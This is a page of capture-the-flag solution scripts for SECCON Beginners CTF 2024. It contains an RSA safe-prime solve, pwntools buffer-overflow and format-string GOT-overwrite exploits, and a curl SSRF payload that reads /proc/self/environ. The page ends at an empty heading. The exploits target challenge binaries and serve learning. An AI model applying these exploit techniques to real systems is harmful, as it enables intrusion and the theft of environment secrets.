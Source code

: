 # SECCON Beginners CTF 2024

- https://github.com/SECCON/SECCON_Beginners_CTF_2024

## crypto

### Safe Prime

- https://www.youtube.com/watch?v=DPYlSEbIGsY&t=5m40s

#### Solution 1

```python
#!/usr/bin/env python3
from Crypto.Util.number import long_to_bytes
from sympy import symbols, Eq, solve
n = 292927367433510948901751902057717800692038691293351366163009654796102787183601223853665784238601655926920628800436003079044921928983307813012149143680956641439800408783429996002829316421340550469318295239640149707659994033143360850517185860496309968947622345912323183329662031340775767654881876683235701491291
c = 40791470236110804733312817275921324892019927976655404478966109115157033048751614414177683787333122984170869148886461684367352872341935843163852393126653174874958667177632653833127408726094823976937236033974500273341920433616691535827765625224845089258529412235827313525710616060854484132337663369013424587861
e = 65537
# q = 2 * p + 1
# n = p * q
# c = pow(m, e, n)
p = symbols('p')
eq = Eq(n, p*(2*p + 1))
solutions = solve(eq, p)
print(f'{solutions=}')
p = int(max(solutions))
q = 2*p + 1
phi = (p - 1) * (q - 1)
d = pow(e, -1, phi)
m = pow(c, d, n)
print(long_to_bytes(m).decode())
```

## pwnable

### simpleoverflow

- https://www.youtube.com/watch?v=DPYlSEbIGsY&t=2m30s

#### Solution 1

```zsh
python3 -c "print('A'*10)"|./chall
```

#### Solution 2

```python
#!/usr/bin/env python3
from pwn import ELF, context, p64, process, remote
context.log_level = 'debug'
exe = context.binary = ELF('./chall')
# io = exe.process([exe.path])
io = remote('::1', 9000)
io.sendlineafter(b'name:', b'A'*0xe + b'B'*0x8 + p64(0x4011ef))
io.interactive()
```

### simpleoverwrite

- https://www.youtube.com/watch?v=DPYlSEbIGsY&t=17m30s

#### Solution 1

```python
#!/usr/bin/env python3
from pwn import ELF, context, p64, process
# context.log_level = 'debug'
exe = context.binary = ELF('./chall')
io = process([exe.path])
io.sendlineafter(b'input:', b'A'*0xa + b'B'*8 + p64(exe.sym.win))
io.interactive()
```

### pure-and-easy

- https://qiita.com/mae_t/items/91a82f8efe361305c29b
- https://www.youtube.com/watch?v=DPYlSEbIGsY&t=63m31s

#### Solution 1

```python
#!/usr/bin/env python3
from pwn import ELF, FmtStr, context, fmtstr_payload, gdb, log, process, remote
# context.log_level = 'debug'
exe = context.binary = ELF('./chall')
# io = process([exe.path])
# io = gdb.debug([exe.path], gdbscript='b main \n c')
io = remote('::1', 9000)


def exec_fmt(payload):
    p = process([exe.path])
    p.sendline(payload)
    return p.readline()


autofmt = FmtStr(exec_fmt)
offset = autofmt.offset
payload = fmtstr_payload(
        offset, {exe.got.exit: exe.sym.win})
log.info('payload: %s', (repr(payload)))
io.sendlineafter(b'>', payload)
io.stream()
```

## web

### ssrforlfi

- https://www.youtube.com/watch?v=DPYlSEbIGsY&t=71m40s

#### Solution 1

```zsh
curl -k 'https://127.0.0.1/?url=file://localhost/proc/self/environ' -o -
```

### wooorker
